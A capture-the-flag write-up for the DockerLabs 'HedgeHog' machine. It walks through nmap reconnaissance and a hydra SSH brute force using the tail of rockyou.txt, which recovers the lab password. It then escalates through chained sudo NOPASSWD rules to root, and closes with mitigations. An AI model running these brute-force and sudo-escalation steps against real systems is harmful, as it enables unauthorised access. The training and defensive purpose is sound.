










# HedgeHog - DockerLabs

**platform**: DockerLabs
**machine**: HedgeHog
**difficulty**: Easy
**os**: Linux
**attack_vector**: Credential exposure via HTTP hint + sudoers chain privilege escalation
**date**: 2026-09-09
**author**: jloffsec

## Summary

Very easy difficulty machine based on a Docker container exposing two services: SSH and HTTP. The entry vector consists of a credential hint exposed directly on the web service, obtained through targeted brute force on SSH. Privilege escalation exploits a `sudoers` misconfiguration that allows running any command as a second user without a password, and the same pattern repeats from that second user up to root.

## Reconnaissance

Full port scan with service and OS detection:

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



| Port | Service |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |

The web service on port 80 returns a blank page with a single visible string: `tails`.



Verification with `curl` and `xxd` confirms the full body is 6 bytes (`74 61 69 6c 73 0a`), with no hidden characters or additional content. The file is static (old `Last-Modified` date), ruling out dynamic logic or injection.

Discarded checks during enumeration:

- Anonymous SSH login: no result.
- Directory fuzzing with `gobuster` (DirBuster medium): no result.
- Manual path traversal (`../../../etc/passwd`): no result.
- Subdomain/vhost fuzzing with `ffuf`: no result.
- HTTP `TRACE`: `405 Method Not Allowed` (standard Apache behavior).
- `.git/HEAD`: `404 Not Found`, no exposed repository.

HTTP headers:

```bash
curl -sI http://172.17.0.2
```



Vulnerability scan with NSE:

```bash
nmap -sV --script vuln 172.17.0.2
```



The `vulners` script returns an extensive list of CVEs matched by CPE against OpenSSH 9.6p1 and Apache 2.4.58. None apply in practice: these are matches against the base Ubuntu package version, with no confirmed working exploit against the actual system build.

## Vulnerabilities

Exposure of an access credential through a plaintext hint on the HTTP service, used as a thematic clue (the `tail` command / username `tails`) to direct the SSH brute force attack instead of relying on a generic, unfiltered wordlist.

## Exploitation

Brute force with `hydra`, starting from the end of `rockyou.txt` instead of the beginning, under the hypothesis that the `tail` command — used to display the last part of a file — fit the profile of the machine:

```bash
tail -n 1000 /usr/share/wordlists/rockyou.txt > rockyou-tail.txt
```

Inspecting `rockyou-tail.txt` reveals multiple lines with leading whitespace. These are stripped before feeding the list to `hydra`:

```bash
sed 's/^[[:space:]]*//' rockyou-tail.txt > rockyou-tail-clean.txt
hydra -l tails -P rockyou-tail-clean.txt ssh://172.17.0.2
```



**Username:** `tails`
**Password:** `3117548331`

Connecting with the obtained credentials:

```bash
ssh tails@172.17.0.2
```



## Privilege Escalation

Enumerating sudo privileges for user `tails`:

```bash
sudo -l
```



```
User tails may run the following commands on hedgehog:
    (sonic) NOPASSWD: ALL
```

User `tails` can run any command as user `sonic`, without a password. Shell obtained as `sonic`:

```bash
sudo -u sonic /bin/bash
```



Repeating the enumeration from `sonic`'s perspective:

```bash
sudo -l
```



`sonic` holds `NOPASSWD: ALL` for `root`, with no target user restriction. Shell obtained as root:

```bash
sudo /bin/bash
whoami
```



## Conclusion

### Key Takeaways

- A hint exposed on a secondary service (HTTP) can be the access key to another service (SSH), even with no exploitable vulnerability in either one on its own.
- Prioritizing wordlist segments with criteria (e.g. by password composition: numeric, alphabetic) reduces time compared to running a full unfiltered dictionary.
- A chain of loosely restricted `sudoers` entries (`NOPASSWD: ALL` toward an intermediate user, then from that user to root) enables full escalation with no binary exploit required.
- `sudo -l` must be run at every user hop during an escalation chain.

### Mitigation

- Do not expose credentials, usernames, or access hints on public services, even in CTF/training environments modeled on production setups.
- Enforce strong password policies and avoid purely numeric or low-entropy passwords.
- Restrict `sudoers` entries to the specific commands a user's role requires — never `ALL` — and avoid trust chains between non-root users with NOPASSWD privileges equivalent to root.
- Periodically audit `/etc/sudoers` and `/etc/sudoers.d/` for unnecessary `NOPASSWD: ALL` rules.
